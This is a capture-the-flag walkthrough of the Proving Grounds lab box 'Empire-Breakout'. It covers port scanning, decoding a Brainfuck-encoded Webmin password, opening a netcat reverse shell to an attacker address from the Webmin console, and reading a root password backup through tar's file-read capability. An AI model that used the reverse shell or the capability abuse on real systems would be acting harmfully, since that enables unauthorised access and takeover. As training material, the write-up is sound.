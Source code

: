```yaml
---
title: "Empire-Breakout"
categories: [CTF, Proving Grounds - Play]
tags: [EASY, Linux, Web, SMB, Webmin, Brainfuck, Capabilities]
mermaid: true
image: ../assets/img/pg/offsec.jpeg
---
```

The exploration of the "Empire-breakout" box involved several critical steps. First, information gathering was carried out through a port scan using the nmap tool, identifying open ports such as 80, 445, 139, 10000, and 20000. During enumeration, sensitive information was discovered, including an encrypted string in Brainfuck, which was decoded to obtain initial access credentials.
With the credentials "cyber" and ".2uqPEfj3D<P'a-3", initial access to Webmin was obtained. Using the Webmin console, a reverse shell was established, allowing remote access to the system.
During post-exploitation, a "tar" binary with elevated capabilities was identified, allowing the reading of files with any permission. This led to the discovery of a backup file containing an old password, which was used to gain root access to the system.
The process included techniques to exploit vulnerabilities in web services, remote command execution, and privilege escalation, culminating in full system access and the retrieval of proof files.

# Overview

```mermaid
graph TD
    A[Intelligence Gathering]
    A --> B[Port Scan > Port 80,445,139,10000,20000]
    B --> C[Enumeration: HTTP > Brainfuck Encryption]
    C --> D[Exploitation > WebMin, Admin Access]
    D --> E[Post-Exploitation: Privilege Escalation through Capabilities]
    E --> F[Root Shell Access]

```

## 1. Intelligence Gathering

### Port Scan

```bash
sudo nmap -sS -T1 -Pn -p- --open 192.168.190.238 -v
```

![Untitled](../assets/img/pg/Empire/Untitled.png)

## 2. Enumeration

### Porta 80

![Untitled](../assets/img/pg/Empire/Untitled%201.png)

When verifying the page source, I found an encrypted access string (brainfuck).

![Untitled](../assets/img/pg/Empire/Untitled%202.png)

```
++++++++++[>+>+++>+++++++>++++++++++<<<<-]>>++++++++++++++++.++++.>>+++++++++++++++++.----.<++++++++++.-----------.>-----------.++++.<<+.>-.--------.++++++++++++++++++++.<------------.>>---------.<<++++++.++++++.
```

A search on Google led to a decoder site:

[https://www.dcode.fr/brainfuck-language](https://www.dcode.fr/brainfuck-language)

![Untitled](../assets/img/pg/Empire/Untitled%203.png)

> .2uqPEfj3D<P'a-3
> 

### Port 445 and 139

The user credentials 'cyber' were previously found using the `enum4linux -a 192.168.190.238` command

### Port 10000

> MiniServ/1.981
> 

![Untitled](../assets/img/pg/Empire/Untitled%204.png)

Webmin version MiniServ/1.981 was found. After searching for exploits, none were found.

### Port 20000

> MiniServ/1.830
> 

![Untitled](../assets/img/pg/Empire/Untitled%205.png)

Webmin version MiniServ/1.830 was found. After searching for exploits, none were found.

## 3. Exploitation

Initial Access

With the credentials “cyber” and “.2uqPEfj3D<P'a-3”, I gained initial access.

![Untitled](../assets/img/pg/Empire/Untitled%206.png)

Accessing the console mode of Webmin, I sent `/bin/bash`

```bash
nc -e /bin/bash 192.168.45.163 666
```

![Untitled](../assets/img/pg/Empire/Untitled%207.png)

Listening on the local machine:

```bash
rlwrap -cAr nc -nlvp 666
```

![image.png](../assets/img/pg/Empire/image.png)

Importing the shell using Python:

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

![Untitled](../assets/img/pg/Empire/Untitled%208.png)

## 4. Post-Exploitation

I found the binary “tar” with capabilities:

```bash
getcap -r / 2>/dev/null
```

![Untitled](../assets/img/pg/Empire/Untitled%209.png)

CAP_DAC_READ_SEARCH - This means it can read all files on the system regardless of their permissions.
I found the file “.old_pass.bak” in `/var/backups`

![Untitled](../assets/img/pg/Empire/Untitled%2010.png)

The goal was to compress the file with “tar” to discover the old password.

```bash
./tar -cf pass.tar /var/backups/.old_pass.bak
./tar -xf pass.tar
cat var/backups/.old_pass.bak
```

![image.png](../assets/img/pg/Empire/image%201.png)

Access the root

![image.png](../assets/img/pg/Empire/image%202.png)